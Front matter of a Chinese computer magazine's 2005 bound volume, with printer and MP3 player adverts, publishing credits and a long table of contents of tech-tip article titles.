# 电脑爱好者2005合订本（上）正文分册

## 半年杂志精华汇聚 电脑学习用百科全书 千篇文章海量秘技 三套目录快速检索



## 打印照片、复印、传真、扫描：你的打印机都能吗？

HP Photosmart 2608 彩色照片一体机汇集打印照片、复印、传真、扫描等多项功能，是您的全功能影像工作室！它2.5"超大彩色液晶显示屏，可轻松预览和编辑照片；前置 PictBridge 接口能与数码相机直接相连，即使没有PC也能随时打印高质量照片。配合惠普精心研制的 HP Vivera 原装打印耗材，卓越的色彩表现，令照片打印生动逼真，色彩鲜艳持久靓丽。现在您不必再为冲印而四处奔波了，就在自己的影像工作室里随心创作，尽得其乐吧！



- HP PHOTOSMART 2608 彩色照片一体机
¥2999
- 照片打印
- 平板式立体扫描、复印
- 彩色立体复印、彩色打印、彩色传真
- 2.5" 彩色中文液晶屏
- 可选蓝牙功能
- 内置多插槽存储卡读卡器
- 支持网络打印/存储卡共享
- PictBridge打印连接



- HP PSC 1318 彩色打印复印一体机
¥999
- 平板式扫描、复印
- 彩色复印、彩色打印
- PictBridge 打印连接


- HP PSC 1608 彩色照片一体机
¥1499
- 照片打印
- 平板式扫描、复印
- 彩色复印、彩色打印
- 内置多插槽存储卡读卡器
- PictBridge 打印连接
- 中文文本液晶屏



- HP PSC 2358 彩色照片一体机
¥1999
- 照片打印
- 平板式扫描、复印
- 彩色复印、彩色打印
- 1.8" 彩色中文液晶屏
- 内置多插槽存储卡读卡器
- PictBridge打印连接
- 支持多种特效打印

即日起至10月31日，凡购买任意一款HP彩色喷墨多功能一体机，就有机会免费享受全新升级增值服务。（一年免费上门服务/保修期内，故障机换新机。）详情登录 www.hp.com.cn/register/aio


## GEMEI 歌美

## M60 B9 M25 M8 Q8



## DIGITAL AUDIO PLAYER 歌美数码随身听

## 买电视卡 清晰最重要

### 软3D数字梳状滤波器

软3D/YC主要作用是增加亮度/色度分离度，减少色素串扰，提高清晰度

- 我的电视
- 我的视频
- 我的音乐
- 我的相册
- 我的图片

### 电视大师3 TV Master

- 采用飞利浦7130芯片
- 可遥控任何软件*的“超级遥控器”
- 支持遥控键自定义方案，自行识别各软件并自动切换方案
- 定时开关机、预约录像
- 录像暂停、时光平移
- 全面支持天敏媒体娱乐中心

### 至尊功能型 超强画质型 科技简约型 移动便携型










## 电脑爱好者 2005年上半年合订本·正文分册

电脑爱好者杂志社

## 内容提要

2005年《电脑爱好者》杂志进行了全面改版，改版后的杂志栏目有很大的改变，在保留经典栏目的同时，将内容主要分为“聪明用电脑”“CFAN加油站”“明白买电脑”等几部分。《电脑爱好者合订本》2005年（上）正文分册收录了2005年1期——11期杂志的全部内容，为了便于读者检索，对正文的全部内容进行了二次编校、合理整改、系统分类及科学编排，正文分册是一本全面实用的电脑应用类工具资料书。

全书涵盖了业界新闻、专题、操作系统、实用软件与实用技巧、办公与文字处理、编程、网络技术与应用、硬件、傻博士信箱、密技E卡通、新软物语、创业就业等十几类内容，共1600余篇精品文章，是一本名副其实的电脑应用类百科全书。本书特别提供了三套检索目录，让读者可以根据特定的需求，从应用类别、文章关键词和软件名称三个方面入手，快速准确地找到自己需要的文章。

配套光盘A的内容丰富，其中收录了PC-cillin 20054、动易2005、金山毒霸2005、e话通等四款特别定置的软件，两个系列视频教程——成为硬件评测师的十全武功、一步步学BIOS设置。这里将《电脑爱好者》杂志礼品光盘四季光盘之春的精华栏目收录进来，以飨读者。配套光盘A精选了5本电子书提供给读者学习。

本书信息量大，覆盖面广，信息全面，内容精练，技巧丰富，查询便利，适合专业人士及广大电脑爱好者学习参考与收藏。

## 《电脑爱好者合订本》2005年(上)·正文分册

- 社 长：孙晓旭
- 总 编 辑：高 翔
- 常务副社长：赵 健
- 编辑策划：封立鹏(主编) 小 焱(副主编) 马 涛
- 编辑出版：《电脑爱好者》杂志社
- 制 作：格 格
- 责任编辑：马 涛

| 发行： | 《电脑爱好者》杂志社推广发行中心 (100089) |
| 发行电话： | (010) 88400365 88400368 |
| 技术支持： | (010) 88400570 - 8050/8049 |
| 网 址： | http://www.cfan.com.cn |
| 经 销： | 各地报刊亭及新华书店 |

| 开 本： | 787 x 1092 1/16 |
| 印 张： | 29 |
| 字 数： | 2,000千字 |
| 刊 号： | ISSN 1005-0043/CN11-3248/TP |
| 国内邮发代号： | 82-528 |

本书如有印刷质量问题（错页、掉页、残页等），我们将负责调换。
联系电话： (010) 88400365 E-mail:cxxing@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本(正文分册、附录分册、配套2CD)定价：38元

## 实用软件与实用技巧

### (一) 文件管理、压缩、备份及加密

- 超越ISOEMU 用ISO文件重装Windows
- 日记 日记 用电脑来记
- WinRAR 不只是压缩那么简单
- 秘技！如何将两个ISO刻到一张盘上
- ISO的魔法 “缩小灯”
- 我的WinRAR自解压界面大不相同
- 我的WinRAR会换肤
- 让WinRAR支持的压缩扩展名更广一些
- 让我的WinRAR安全多一点
- 体验全新虚拟技术VMware5.0

### (二) 系统维护辅助软件

- 比精灵更强悍 一键备份/恢复多分区
- 巧用策略 关闭无用端口
- 资源和美丽我全要 XP完美克隆Mac OS
- DOS快餐店(一)
- 给Windows换个强力剪贴板
- 三个VBS脚本帮你操作快快快
- 给Windows装个强力监视器
- 你了解“补丁”吗？
- 极限瘦身 Office 2003安装包从600MB到60MB！
- FlyakiteOSX2.0SE专为中文造
- 免费给电脑装个安全听诊器
- 三步！闪盘变成启动盘
- 几小时变几秒钟 正则表达式实例秀

### (三) 图形图像处理软件

- 给你的光盘“穿件漂亮的外衣”
- 用Photoshop打造情人节礼物
- 六大任务玩转AutoCAD
- 我的iPod 我的青春摇摆
- CorelDraw：成就平面设计师
- 妙手回春，还图像本来面目
- 让照片“秀”出不一样的风采
- 五步让照片换新颜
- 数码照片仿真“反转片”
- ACDSee 我不仅仅只能看图片
- 在身体上做画 无痛体验人体彩绘
- 在天空中写下“我爱你” 云彩字制作
- 轻轻松松学做XP风格图标
- 从静物到科幻大片—3ds max上手指南
- Photoshop中绘丹青 不是画家一样能泼墨
- 圆你画家梦 一分钟照片变成水彩画
- 给Photoshop CS装上得心应手的快捷工具栏

### (四) 动画与多媒体制作

- Authorware：不会编程也能制作专业多媒体

### (二) Windows 技巧应用

- 让你的闪盘即插即存
- 复制海量文件 如何断点续传？
- 光盘版游戏完美转换硬盘版
- 把根留住—备份Windows密码
- 认出文本文件中的“小黑子”
- Visual CD三步帮你管光盘
- 看图从来没有这样轻松
- 玩转大小写和全半角
- 笔记本 就要随需应变
- 让硬盘彻底告别1.99GB
- 和时间做游戏
- 单张多图 看我的
- 不甘寂寞 闪存盘也玩“Ghost”
- 垂直同步你凭什么影响我打CS
- 让下载限制不再
- 水能变油？RM转MP3音质会变好？
- 比MD更快、更方便地建立文件夹

### (三) 系统、程序、菜单的个性化打造

- 这样关机才有用 才够酷！
- 电脑里面开出版社 轻松自制电子书
- 1个DLL＝虚拟桌面
- 整人宝典之愚人节诱惑
- 搂着电脑数星星
- Windows XP为什么能变“大苹果”？
- 我的Windows XP安装盘只有200MB！
- 巧用批处理 自己打造nLite超强版

### (四) Windows 注册表

- 赤手空拳备份注册表
- 正解！XP SP2连接上限官方修改法
- 谁说这里不能启动

### (五) Windows 系统故障排除

- 解决Applocale的应用故障
- 慢！慢！慢！原来是它惹的祸
- 让Foobar2000转换MP3不再“卡”机
- 服务停止以后
- Windows XP SP1的神秘“死亡”
- 除去眼中钉:停用顽固闪存盘

### (六) Windows 系统、程序优化

- 打开Windows的神秘窃听器
- XP SP2防火墙实战策略
- “两个”CPU 我该如何用好它们
- 补丁、软件装不上？试试右键

## 业界

- 2005 · IT 春天的约会
- 频率游戏的终结
- 主板烧毁 谁之过
- P5，换个马甲我也认识你
- SLI复活 并行处理大行其道
- 手机，病毒又一滋生地
- 明天，你会“苹果”吗？
- 2005 笔记本厂商演绎“天下无贼”
- BTX 再现Intel利己主义
- BT犯法，谁在违规？
- 买东西你看产地吗
- Alexa排名，一个不见硝烟的战场
- 免费午餐不好得
- DIY时代奏响休止符？
- Sonoma引发笔记本之争
- 弹出广告 想说再见不容易
- 2005，Google 意 欲 何 为
- 我谈《DIY 时代奏响休止符？》
- “语句提示技术”专利权如何行使？
- 陈天桥看好网络电视 数字电视也能玩网游
- 个人网站真的会一夜消失？
- 小心窃取密码的卧底
- 《电子签名法》正式生效 应用从电子印章开始
- 个人网站的“身份证”—非经营性ICP备案登记
- 她来了 “真视频”沟通时代还远吗？
- 32位后劲仍足 64位只欠东风？
- 原创软件者如何生财有道？
- 热词

## 专题

## 好“摄”之途—数码相机拍摄实例剖析

- 菜鸟最难逾越的五道坎
- 菜鸟拍摄的七大经典实例
- 摄友必读的两大构图密招

## “闪”了“闪”了—Flash动画制作一日通

- 9:00~9:30 会转眼睛会吐泡泡的卡通鱼
- 9:30~10:30 瑞雪飘飘 E卡传情
- 10:30~11:00 雪人笑了
- 13:30~14:30 欢迎进入 Flash 闪客世界
- 14:30~14:40 十分钟打造超酷闪客相册
- 14:40~15:30 Q版星座测测你的事业与爱情
- 15:30~15:45 他人动画 巧为我用
- 15:45~16:30 Flash资源列表

## 网站背后的故事

- 什么是网站？
- 网站的起源
- 网站幕后的软件
- 网站幕后的硬件
- 网站专题报道全接触
- 后记

## 搜索引擎大考堂

- 搜索大作战
- 标准答案及答案分析

## 搭积木的乐趣 六小时玩转VB

- 一小时指指点点 编织真情告白
- 两小时上下摸索 了解VB编程
- 三小时代码试练 成功入门VB

## 局域网的幸福生活

- 第一幕:玩无线网络快乐无限
- 第二幕:打印共享皆大欢喜
- 第三幕:有BT不怕你跑
- 第四幕:寝室影院正点开播
- 第五幕:足球之夜一同狂欢
- 第六幕:内建战网外修战功
- 第七幕:六招保你局域网固若金汤
- 尾声

## 硬件三国之驱动十面埋伏

- 显卡驱动埋伏广告杀手
- 显卡驱动埋伏双显奇兵
- 显卡驱动埋伏虚拟桌面幻象
- 声卡驱动埋伏PC调音台
- 网卡驱动埋伏无敌双枪
- 网卡驱动埋伏异地唤醒术
- 主板驱动埋伏动态超频大法
- 主板驱动埋伏RAID超级硬盘
- XP SP2埋伏蓝牙
- 驱动无数小将全待命

## 待从头，收拾旧河山—Windows重装大宝典

- 3招！让你离重装系统远远的
- 6招！时刻做好准备与重装面对面
- 马上重装？先别急！
- 让我们开始重装Windows吧！
- 因为故障，你应先试修复安装
- 重装后必做的4件事

## 1天！我在网上安个家

- 不到一分钟体验HTML魅力
- 简单到极点！1分钟做网页
- 懒惰到极点！不用动手轻松拥有个人网站
- 各位乘客，网页制作直通车马上出发
- 开始动工 躲在别人的肩膀上前进
- 来吧！把我们的家搬到网上去
- 网站功能太少，让我们丰富一下吧

## 我爱音乐 我爱MP3—我和MP3的22个瞬间

- MP3音质好坏看哪里？
- 你该如何购买MP3随身听？
- 为你的MP3升个级
- 来自网络的MP3
- 修改MP3的ID3信息
- 让MP3随身听显示歌词
- 只要一个软件MP3大转换
- 学习大片中的英语
- 让MP3歌曲变变样

## 跨越时空的爱恋—走进游戏模拟器的世界

- 红与白，不灭的记忆
- 错过的超任再来重温
- 我把PC变成PS游戏机了
- 种种主机皆能模拟
- 没钱买掌机 游戏一样玩
- 街机搬回家 天天玩不停
- TVGame排好队 全都会有模拟器

## 操作系统与应用

### (一)Windows原理知识

- 送你微软原装的“系统摄像头”
- 用好故障恢复控制台命令
- 步步为营 轻松玩转DIR命令
- 硬盘，我要精心呵护你
- 今天 你COPY了吗
- DOS快餐店[番外篇]
- 磁盘清道夫—del和rd的故事
- 和“运行”心有灵犀
- 连根拔起—共享的二次登录
- 文件移形换位大法

### (五)音频与视频处理

- 用暴风影音体验完美视频效果
- 让暴风影音使用WinAMP的DFX插件
- 让Real媒体在影碟机上播放
- 剪辑多媒体 留住最美的那一刻
- 电脑中的超级影碟机——超级解霸
- 手机铃声DIY彰显个性
- 烦人的网页请走开 不要打扰我看片
- 为Real媒体添加视频热点
- 制作完美的RMVB文件
- 让Real视频自动打开网页
- 轻松做个大导演 学用Premiere制作电影
- 利用NeroVision Express轻松自制专业VCD
- 只要改个名 RMVB就变VCD
- 去除Real sched.exe进程何必舍近求远?
- 用好Media Player 休闲娱乐任我行
- 挑战极限! 制作220分钟的VCD光盘
- 让马赛克和爆音远离你的VCD、CD
- 关于《挑战极限! 制作220 分钟的VCD 光盘》补遗
- 数码相片摇身速变VCD

### (六)即时通讯软件

- QQ动态表情自己做
- 我的QQ头像不一样
- 享受多人的音频聊天
- 免费得QQ高级群
- 给MSN Messenger 7.0补上手写功能
- 随心所欲定制你的QQ性别
- 动态QQ表情DIY Fireworks轻松搞定

### (七)系统安全与病毒查杀

- 中毒后遗症 妙手来清除
- 文件型病毒的清除
- 使用瑞星个人防火墙保护上网安全
- “咖啡”你都做了些什么?
- 2005 年的网络安全套餐—Norton Internet Security 2005
- 杀毒需注意的几个特殊目录及文件
- 小心被黑! 木马生成器碰不得
- 如何查杀隐形木马
- 巧用瑞星杀毒软件2005 过滤垃圾邮件
- 你的密码安全吗?
- 另类杀毒又一法
- 新断系统“黑手”—IceSword 冰刃
- 抢先启动杀毒牛在哪儿
- 黑客就这样在游戏中炼成
- ADSL防黑小技巧
- 你的文件保护好了吗?
- 检测文件是否捆绑木马
- 谣言猛于“毒”
- 一个简单查看指令巧防网页恶意代码
- 全球数亿用户同时享受的杀毒软件—PC-cillin 2005网络安全版

### (八)其他实用软件

- 麻辣水浒之Excel 2003
- FlashGet改造实录
- 免装Office 办公文档轻松看
- 照片从模糊到清晰CleanVue帮你搞定
- FlashGet三大超精彩秘技
- 快乐工作从Outlook开始……
- 自制只有一个文件的绿色软件
- 又见Total Commander
- 抓只狐狸当邮差—Foxmail
- 1小时学会Access 轻松打造个人图书管理系统
- 教你和远方朋友一起打游戏
- DM万用版 免费的硬盘大管家
- 内网也能用远程控制
- 菜鸟学用Access 轻松打造花店订单系统
- FlashGet 超越下载极限
- 让EmEditor实用功能更上一层楼
- 挡不住的魅力 尽在PowerPoint
- 学会Dreamweaver，1小时做好个人网站
- 今天！我来做本《电脑爱好者》——学用专业排版软件PageMaker

### (九)实用技巧

- 轻松读懂生僻字
- 极点中文摇身变万能五笔
- 将智能狂拼植入紫光拼音
- 找回丢失的Outlook账户密码
- 让数码照片自动加日期
- 隐藏着小秘密的爱心CD
- 我的第一款Software发布啦
- 今天做个只有一台电脑的网络管理员
- 解决OneKey的安装问题
- 我的显示器在你的机器里
- 小心！“网络钓鱼”就在你身边
- 双显 就是这么神奇
- 解决FlyakiteOSX字体变小问题
- DIY集多引擎为一身的搜索器
- 浏览器被劫持了怎么办
- 一专多能 网文快捕的另类利用
- 找回丢失的邮件密码
- 将你的闪存盘变为“密钥盘”
- 网管的“秘宝”
- 我的WinRAR预览网页更快速
- 别把我当广告—简单设置解决NIS与BBSXP不兼容问题
- 特殊符号！我要轻松输入你
- 新鲜的彩蛋挖出来
- 发挥潜能，IceSword 功能再发掘

### (十)编程

- 麻将对对碰 游戏自己编
- 用Delphi编写圆周率模拟器
- Java咖啡馆(10)—情人节的Applet
- Java咖啡馆(11)—Java插件技术
- Java咖啡馆(12)—Tic-Tac-Toe
- Java咖啡馆(13)—终结者
- Swing跟我学之游戏设计(1)
- Swing跟我学之游戏设计(2)
- Swing跟我学之游戏设计(3)
- Swing跟我学之游戏设计(4)

### (一)Microsoft Office Word

- 高效办公 我用“邮件合并”
- 旧“查找” 新“替换”
- Word中批量转换文档格式
- 正规公文制作有一套

## 办公与文字处理

## 2005合订本
## 电脑高手
## 办公软件应用

- 251 我的作业你别抄——版权证书让Word文档更安全
- 252 随心所欲自出心裁——Word 2003特殊形状截图攻略
- 255 比格式刷更强的格式复制
- 265 让‘记事本’认识未知文件
- 266 未经允许，严禁用闪存盘
- 266 Windows 2000也用命令行计划任务
- 266 管理员权限玩游戏
- 266 我的右键不再‘迟疑’
- 266 桌面操作也玩拨云见日
- 266 对付恶意程序 岂能坐以待毙
- 266 找回IE的默认地位
- 266 精简之后Windows Media Player也能升级
- 266 快速找回丢失的‘设备管理器’
- 266 随时随地清理垃圾
- 266 系统信息 我要揭你老底
- 267 搞定健忘的‘快速启动栏’
- 267 让Windows XP桌面显示版本信息
- 267 安全模式也能用MSI
- 267 为组策略做个‘Ghost 镜像’
- 267 找回系统托盘上的喇叭
- 267 Windows 2000/2003 Server 单用户远程控制
- 267 搞定 Windows 98 的‘explorer 错误’
- 267 禁止 Win2000 启动时读软盘
- 267 快速删除注册表键值
- 267 未知文件不再‘自作多情’
- 267 让‘隐藏’文件隐藏得更安全
- 267 把注册表植入资源管理器
- 268 让Windows XP欢迎屏幕强制隐藏任意用户名
- 268 看看我的电脑是否被动过
- 268 宏病毒文档照样开

### (二)Microsoft Office Excel

- 245 对付多余表格空行就这么容易
- 248 为Excel加装快捷的公式保护器
- 253 免费秘书Excel 事事及时提醒你
- 255 解除 Excel 数据保护之‘葵花宝典’
- 260 用好Excel的双面打印

### (三)Microsoft Office Outlook

- 257 巧用Outlook 会议筹备有条不紊

### (四)办公与文字处理综合应用

- 244 专业电路图 Excel也能行
- 247 凝固在Excel中的乐章
- 250 毕业论文写作全攻略
- 253 调查问卷Excel全搞定
- 255 揭开Office绘图之谜 打造个性化矢量酷图
- 258 用Excel建立模拟考试系统

## 密技至尊卡通

### (一)系统

- 263 快速找回丢失的‘显示桌面’
- 263 快速修复‘发送到→桌面快捷方式’
- 263 禁止 Windows 2000 的 EFS 器
- 263 改变 i386 资源目录的默认路径
- 263 隐藏所有托盘图标
- 263 给‘程序’美容
- 263 屏蔽键盘上的Windows键
- 263 让DOS文件或文件夹的名字显示在左边
- 263 乱码快速纠正
- 263 设置非标准刷新率
- 263 快速卸载Media Player的鼠标右键选项
- 263 木马和病毒的惯用伎俩
- 263 禁止IE的菜单栏
- 263 手工禁止待机
- 263 留住我的‘网上邻居’
- 264 Capslock、Numlock、Scroll Lock 初始状态随心设
- 264 Windows Media Player也玩截图
- 264 修复加密服务故障
- 264 恢复光驱的即读即现
- 264 同名文件复制一键否决
- 264 让‘剪贴板查看器’进驻控制面板
- 264 卸载无法卸载的WebFldrs
- 264 用IE也能解除右键屏蔽
- 264 进程信息就要看完全
- 264 左撇子轻松复制粘贴
- 264 MS-JVM 轻松卸
- 264 多文件打开回车键有妙招
- 264 快速查看进程中的服务
- 265 WMP 让 MP3 有‘面子’
- 265 让XP的搜索结果更快更准
- 265 多系统轻松共享‘极点中文’
- 265 在桌面的时钟旁显示自己的名字
- 265 玩完游戏也要快速关机
- 265 就为一‘点’ 别想让我切换输入法
- 265 彻底删除收藏夹中的‘链接’
- 265 Windows Media Player默认路径随你设
- 265 快速隐藏所有缩略图的文件名
- 265 ‘堵’住系统托盘的‘嘴’
- 265 双击驱动器或文件夹却打开‘搜索助理’的问题

### (二)软件

- 268 快速关闭取词状态
- 268 页眉位置随意设置
- 268 定制极点中文专版安装包
- 268 巧妙解决杀毒软件让机器重启的问题
- 268 快速批量修改MP3信息
- 268 快速切换Windows Media Player的外观
- 268 巧选文字竖块
- 268 在Excel中复制图片表格
- 268 巧妙拆合Word表格
- 268 音乐循环放
- 268 豪杰解霸也能播放Real10视频
- 268 听歌的时间不再调整音量
- 268 让My MPC·暴风影音不保存历史记录
- 268 给你绿色的五笔
- 268 修改Winamp文件关联图标
- 269 在Winamp中实现双击添加音频文件
- 269 把PowerPoint 文件转成Word 文件
- 269 用Word XP进行图像处理
- 269 紫光输入法技巧一则
- 269 快速关闭PhotoShop的工具栏和浮动面板
- 269 测试你的系统是否有Popup漏洞
- 269 用Total Commander巧法删除重复图片
- 269 解压缩后，快速打开文件夹
- 269 对加密网页说‘不’
- 269 也谈QQ能用，IE不能用问题
- 269 关于《轻松读懂生僻字》的补充
- 269 恢复ACDSee中的默认窗格位置
- 269 关闭Sygate Personal Firewall的升级提醒
- 269 用Nero兼职Ghost
- 269 在ACDSee中用等级排序
- 269 用网文快捕捕捉无广告的页面
- 269 设置WinDVD的抓图保存目录
- 269 UltraEdit巧设超级密码
- 269 让Foobar 2000 减少资源占用
- 269 在千千静听中精确定位歌曲进度
- 269 在RealPlayer中流畅快速的播放在线视频

## 电脑报2005合订本（上半年）

- 270 在Word中实现折页打印
- 270 让PQMagic运行在Server版系统中
- 270 倒放MOV电影
- 270 在Winamp中快速定位至指定的歌曲
- 270 让McAfee VirusScan阻挡危险程序的写入
- 270 在Photoshop中快速定位图像区域
- 270 用计算器计算复杂的公式
- 270 快速修改QQ聊天场景图片
- 270 用Winamp做电台DJ
- 270 制作可以显示用户IP等信息的图片
- 270 关闭WPS的自动备份功能
- 270 为QQ添加网络电视
- 270 KV进程让瑞星无法更新
- 270 快捷键令段落巧移位
- 270 使用KV2005工具栏快速查杀病毒
- 270 挽救受损的PowerPoint文件
- 270 让公式现身
- 270 章首换页巧解决
- 270 自己动手升级永中Office2004增强试用版
- 270 让永中Office2004退出时自动释放内存
- 271 快速修改“千千静听”中的MP3标签
- 271 巧杀U盘病毒
- 271 阅读Word文档“不看多余的”
- 271 对瑞星2005“精兵简政”
- 271 选中页面文字下的图片
- 271 自动更新媒体库
- 271 不用注册也能保存大头贴
- 271 巧妙解决PPT调用文件时的链接错误
- 271 在Excel中控制指针方向
- 271 微软拼音改错技巧
- 271 Flash游戏巧闯关
- 271 《去除Realsched.exe进程何必舍近求远？》一文的补充
- 271 制作幻灯片自动播放光盘
- 271 打印千千静听歌词
- 271 浮动广告的“定身术”
- 271 在RealPlayer中方便的快进、快退
- 271 在千千静听中启用DFX7.2
- 272 让暴风影音静默安装
- 272 赶走Excel中讨厌的超级链接
- 272 在Word中输入特大字号
- 272 文字大小随表格自动调节
- 272 让Excel文字自动换行
- 272 网络小说巧打印
- 272 去除迅雷的广告
- 272 让FlashGet显示出明文密码
- 272 当KUGOO不能搜索时
- 272 节日不能随便忘 让Outlook显示节日
- 272 让Adobe Reader记录上次阅读位置
- 272 让“千千静听”按类别播放
- 272 快速将歌曲按专辑(歌手)分文件夹保存
- 272 去除烦人的“脚本错误”
- 272 让输入法不再随Word改变
- 272 没有RealPlayer也能看RM
- 272 极点五笔兼职命令行

### (三)网络

- 273 切换TM得双倍网络硬盘
- 273 巧用IE地址栏打开播放器
- 273 在Blog中显示所在城市的天气
- 273 换机后QQ也能断点续传
- 273 让你的电脑不再白白“熬夜”
- 273 普通用户也玩网络收藏
- 273 快速群发网络硬盘中的文件
- 273 QQ也玩自定义头像
- 273 寻找遗失的Maxthon隐藏窗口
- 273 备份Maxthon快捷组
- 273 GOOGLE，我用中文的
- 273 QQ程序巧下载
- 273 保存“不能保存”的网页
- 273 巧妙查看是否为对方QQ好友
- 273 用QQ表情玩魔法秀
- 273 轻松提升论坛首页访问速度
- 273 避开Mofile下载次数的限制
- 274 QQ也用免提信息
- 274 取消任务栏上的QQ图标
- 274 再谈一个网卡绑定多个IP地址
- 274 谁连上了我的电脑
- 274 在TelTel中加好友的经验
- 274 本地巧设QQ排名
- 274 免费的外语老师
- 274 QQ号码永不保存
- 274 Yahoo! ID巧查询
- 274 从右键菜单把文件上传到QQ网络硬盘
- 274 出门不用愁 快速查询火车车次和路线
- 274 快速找出微软站点所下载文件的真实地址
- 274 自动载入FlashFXP下载队列
- 274 找出“阻止发件人名单”中的电子邮箱
- 274 在Maxthon中快速切换标签
- 274 在MSN中批量添加好友
- 275 让Firefox运指如飞
- 275 聊天背景一拖即换
- 275 个性头像轻松设置
- 275 宽带用户提高网络下载速度
- 275 内网用Real Player在线看大片
- 275 让腾讯公司替你“封杀”
- 275 摄像头搜索更准确
- 275 在QQ网络硬盘中快速上传下载
- 275 随心所欲领养宠物
- 275 在百度下吧中妙搜所有电影
- 275 打开Maxthon快捷组中的单个网页
- 275 QQ中快速添加多人聊天
- 275 解决MSN 7 Beta版无法登录问题
- 275 彻底刷新网页的方法
- 275 取消QQ手机绑定
- 275 为什么ZIP附件变成ZM9
- 275 挽救无法合并的BT文件
- 275 在浩方中快速追踪好友
- 275 让Edonkey摆脱监视
- 276 快速显示MSN的菜单
- 276 解决QQ会员复制好友的分组问题
- 276 我的地址栏可以搜索MP3
- 276 QQ隐藏又有新方法
- 276 下载软件直接进入最终页面
- 276 QQ传输文件再省一步
- 276 给QQ好友排排队
- 276 去除KV2005的在线升级广告
- 276 让Firefox摆脱Tab插件的束缚
- 276 快速备份网址
- 276 Maxthon也可浏览RSS新闻
- 276 QQ自定义表情的另类备份方法
- 276 难道QQ要永远透明了吗?
- 276 解决Google快照无法显示的问题
- 276 快速升级Outlook 2003反垃圾邮件能力
- 276 QQ中对个别好友不隐身
- 276 揪出最新版QQ的邮箱客户端
- 277 破解加密网页新招数
- 277 挽救无法合并的BT文件
- 277 打破Wallop邀请人数的限制
- 277 巧解IE储存图片之迷
- 277 巧妙查询你是否为对方好友

### (四)硬件

- 278 投影机灯泡的维护保养
- 278 利用ADSL中的LAN指示灯识别网络故障
- 278 ISA接口设备安装失败后该怎么办?
- 278 解决光电鼠标故障的诀窍
- 278 笔记本电脑上Fn键妙用
- 278 清洁激光打印机搓纸轮防卡纸
- 278 笔记本文键盘解决方案
- 278 MP3播放小窍门
- 278 给显卡风扇轴承加点油
- 278 把老数码相机变成摄像头
- 278 弹簧失效导致键盘复位故障

## 网络技术与应用

### （一）网络连接与维护

- 301 用TM远程做演示
- 302 触摸代理服务器的“敏感区”
- 305 突破教育网 舒舒服服用代理
- 310 反间谍软件之“皇家近卫军”——Microsoft AntiSpyware

### （二）网络通讯

- 301 用QQ远程拯救我的MM
- 302 我的昵称要抢夺你的眼球
- 304 不是会员也玩QQ群

### (三)网络下载

- 300 改参数 让比特精灵极速狂飙
- 300 用KuGoo下载整张专辑
- 316 下一代BT软件来了
- 323 我是一只猎杀Flash的狐狸
- 326 强！从网卡中“夺取”真实播放地址
- 328 轻松做个导种大师
- 336 今晚 我要做新闻主播！
- 342 谁能把FlashGet拉下马？

### (四)上网技巧

- 299 拒绝繁琐 上网省时大法
- 303 脚踩多条船 做个搜索花心鱼
- 312 让OE用新窗口打开网页链接
- 315 三个桌面搜索都是大腕 我该挑谁
- 323 让浏览器暂时停用广告屏蔽
- 325 本土化的百度桌面搜索来了
- 326 弹出窗口 打CS时我最恨你
- 338 瞬间成为论坛高手
- 339 论坛帖子随身带

### (五)网络浏览器

- 305 打开浏览器就能用Photoshop
- 314 给IE工具栏装个新建空白页按钮
- 322 IE窗口的小图标你会用吗
- 327 浏览器也能体验“简单爱”
- 328 IE历史记录我做主
- 337 强！IE摇身变Maxthon
- 340 微软的“鸿门宴”——IE 7.0能给我们带来什么

### (六)Internet资源

- 306 不是管理员也能在校友录放大片
- 306 漂亮英文字体 请问你叫什么
- 313 请来专家 网易相册更快更强
- 313 绝对隐私！隐藏在互联网上的摄像头
- 314 网页一点即收藏Internet资讯大共享
- 318 玩转RSS 天下信息随心看
- 322 QQ网络硬盘可以多点下载了
- 322 微软Spaces：分享空间 分享生活
- 324 今天 我要在家做主编
- 344 惊人！网上答题之快搜作弊法！
- 345 把你的GB邮箱变成超级下载基地！

### (七)网站建设与网页制作

- 304 五分钟搭建Web服务器和论坛
- 338 一秒钟做出网页来
- 339 爱“拼”才会赢 五分钟完成网站Logo

### (八)网站探宝

- 347 找个网站当黑客
- 349 小企鹅的大本营—QQ.com
- 349 中国程序员的家—CSDN.net
- 350 火狐狸的中国家—FirefoxCN.com
- 350 回忆中的金点时空—GPGame.net
- 351 再探“黑窝”
- 353 风从这里吹来—PHPWind.net
- 354 讲述中国漫画人自己的故事

### (一)硬件优化、改造与故障排除

- 356 便宜声卡降噪完全对策
- 356 巧用数码相机拍摄立体照片
- 360 活学活用打印机共享
- 361 让USB HUB与鼠标垫联姻
- 364 文稿夹加装照明灯
- 365 给USB HUB强身健体
- 366 教你正确清洁光盘
- 367 喷墨打印机耗材节省完全方案
- 369 让无线鼠标“休息”一下
- 376 OCCT：为你的电源把把脉
- 377 一分钟揪出液晶显示器的坏点
- 381 Firmware升级就这么简单
- 382 飞奔的CPU，让我看清你
- 389 差点被电源线“谋杀”的硬盘
- 393 让MP3连续23小时播放——电池升级手记

### (二)硬件基础知识

- 355 不开机箱认识自己的CPU
- 355 了解单反数码相机
- 357 DVD刻录速度之谜
- 357 不开机箱认识内存
- 362 不开机箱认识显卡
- 366 不开机箱认识主板
- 367 笔记本电脑屏幕分辨率一点通
- 371 不开机箱认识硬盘
- 372 做工，不可忽视的问题
- 375 FSAA快速入门
- 378 刷新率的三重外壳
- 378 双核心处理器决战新时代
- 379 IBM ThinkPad 笔记本电脑型号解密
- 380 细说LCD响应时间
- 383 硬派讲堂之刷新主板BIOS
- 384 SATA到底有多美
- 388 硬派讲堂之特色刷新主板BIOS

### (三)显示器及视频设备

- 392 在Windows下巧用RivaTuner备份显卡BIOS
- 393 显示器“低亮”怎么办？

### (四)笔记本与数码产品

- 358 巧辨本本返修货
- 369 数码相机新手必读的五大拍摄技巧
- 373 笔记本电脑日常保养与维护终极指导
- 374 按需索机—MP3播放机实用功能轮番数
- 376 IBM学生机欲与水货机试比低
- 379 玩转DC闪光模式
- 380 轻松学会查闪光表
- 387 让你的照片更清晰 DC“防抖”有绝招
- 389 MPV、MP3的加减法
- 390 要买本本的你 该何时出手？
- 391 数码相机进阶应用一直方图，准确曝光的好帮手

### (五)市场导购

- 359 兼容墨水的品质真的和原厂一样？！
- 359 当电老虎遇到高电量电池
- 362 非卖品也可以正常销售？！
- 363 购买本本三点式
- 366 香港中英街购DC连环骗术
- 368 购买DC无“奸”道
- 370 图解真假尼康锂电池
- 373 投影机：别把参数当卖点
- 381 质保：认签不认人
- 385 耳机选购除了听，还是要看的—浅谈优质耳机的一些外观特征
- 386 CRT显示器选购的5个妙招
- 386 保修期内更换的产品续保无期？！
